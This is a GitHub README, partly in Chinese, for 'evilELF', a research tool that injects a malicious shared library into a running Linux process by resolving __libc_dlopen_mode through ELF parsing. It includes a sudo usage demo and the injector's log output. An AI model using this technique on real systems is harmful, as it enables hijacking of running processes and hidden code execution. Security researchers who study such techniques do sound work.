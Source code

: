 # evilELF
Malicious use of ELF such as .so inject, func hook and so on.

## [InejctRuntimeELF](https://github.com/jmpews/evilELF/tree/master/InjectRuntimeELF)

具体参考 [linux进程动态so注入](https://github.com/jmpews/dev2pwn/blob/master/linux%E8%BF%9B%E7%A8%8B%E5%8A%A8%E6%80%81so%E6%B3%A8%E5%85%A5.md)
实现恶意 `so` 注入, 采用直接解析 `ELF` 文件的方式, 更加具有通用性, 并以 `.gnu.hash` 进行符号查找, 适用于目前的 `ELF` 结构.

代码规范, 参考 `glibc-2.19`, 用 `ElfW` 宏进行 `32` 和 `64` 字长兼容.

#### Demo & Usage

```
➜  InjectRuntimeELF git:(master) ✗ sudo ./inject 3631 /evilELF/InjectRuntimeELF/example/evil.so
--------------------------------------------------------------
InjectRuntimeELF - (1.0.0) - by jmpews@gmail.com
--------------------------------------------------------------
[*] attached to pid 3631.
[*] dump runtime infomation
[*] dumping header...
[*] start symbol search '__libc_dlopen_mode'...
[*] start search libaray: /lib/i386-linux-gnu/libc.so.6
[*] start bucket search...
[*] found '__libc_dlopen_mode' at 0xb7693ae0
[+] entry point: 0x8048380
[+] stopped 3631 at eip:0xb7729428, esp:0xbf93cffc
[+] inject code done 3631 at eip:0x8048396
[*] start symbol search 'evilfunc'...
[*] start search libaray: /lib/i386-linux-gnu/libc.so.6
[*] start search libaray: /lib/ld-linux.so.2
[*] search in ld, no link_map.
[*] start search libaray: /evilELF/InjectRuntimeELF/example/evil.so
[*] start bucket search...
[*] found 'evilfunc' at 0xb772353b
[*] lib injection done!
```
